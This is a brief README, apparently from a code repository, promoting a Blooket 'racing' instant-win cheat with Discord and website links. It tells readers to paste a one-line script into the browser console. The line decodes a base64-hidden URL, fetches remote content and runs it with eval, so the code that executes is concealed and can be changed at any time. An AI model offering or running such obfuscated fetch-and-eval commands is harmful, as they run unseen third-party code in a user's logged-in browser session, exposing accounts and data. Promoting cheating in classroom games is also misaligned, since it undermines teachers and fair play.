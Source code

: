**Discord server: https://discord.gg/K5xUbuDqmG**

**These bookmarklets are also on: https://schoolcheats.net/blooket**

# racing 

This cheat only works in racing game mode!

# instantWin.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9yYWNpbmdJbnN0YW50V2luLmpzb24=')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```
